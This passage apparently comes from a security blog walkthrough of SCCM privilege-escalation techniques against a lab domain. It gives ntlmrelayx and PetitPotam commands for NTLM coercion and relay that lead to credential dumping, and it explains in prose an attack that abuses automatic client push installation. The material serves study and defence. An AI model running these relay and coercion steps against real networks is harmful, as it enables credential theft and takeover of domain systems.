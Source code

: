 Below is a graphic visualizing the attack technique:

<p align="center">
  <img src="https://logan-goins.com/assets/img/sccm/Attacker.png" />
</p>

With a valid vulnerable site system in mind, for example, `mssql01.lab.lan`, set up a relay using `ntlmrelayx.py`:

```
ntlmrelayx.py -t mssql01.lab.lan -smb2support
```

![image](https://logan-goins.com/assets/img/sccm/elevate-1-relay-start.png)

Next utilize a tool such as PetitPotam to coerce valid Net-NTLMv2 authentication from the site server, in this case `sccm01.lab.lan`:

```
python3 PetitPotam.py 192.168.1.50 sccm01.lab.lan -u jdoe -p P@ssw0rd
```

![image](https://logan-goins.com/assets/img/sccm/elevate-1-coerce.png)

Looking back at `ntlmrelayx.py`, we can see that it has automatically relayed the authentication to the target device and dumped credentials due to its administrative permissions on the host.

![image](https://logan-goins.com/assets/img/sccm/elevate-1-dump-creds.png)

## ELEVATE-2 - NTLM Relay with Automatic Client Push Authentication

When side-wide automatic client push installation is enabled, the site server will automatically attempt to install client agents on devices registered in the site after approval. If an attacker is able to trick the site server into recognizing a new client device with an attacker owned address, they would be able to relay authentication from the site server to systems without SMB signing for arbitrary takeover. Note that the authentication obtained from the site server attempting to install an agent on the client device would be the official site server installation account. With this non-default added account being required to have local administrator privileges on each site system, it is common that this non-default site server installation account not only has administrative permissions on site systems but could be a member of a high privilege group such as `Domain Admins`. This would imply that if an attacker is able to trick the site server into performing client installation to a controller address, they could gain administrative access to every device without SMB signing in the domain, whether they are in the site or not.

Unlike `ELEVATE-1`, with its requirements being entirely default, `ELEVATE-2` has a large number of non-default requirements, although still very common.

These include:

1. Automatic site-wide client push installation enabled
2. Automatic site device approval
3. Fallback authentication to NTLM

While all three of these options are non-default and are required to be manually configured by a system administrator for this attack to work, most of these options provide ease of use for system administrators attempting to manage large-scale SCCM device infrastructure. For example, automatic client push installation ensures that devices recognized by the site server don't have to be manually selected for client push installation. Automatic site device approval ensures that system administrators do not have to manually approve each device making automated requests to join a site. And finally fallback authentication ensures greater compatibility with older, non Kerberos compatible windows device which still run rampant in corporate environments, by allowing NTLM authentication to be used when Kerberos fails. So while all three of these options are entirely manually implemented, it makes perfect sense why so many SCCM admins configure them to make their job significantly easier and less manual in the long run.
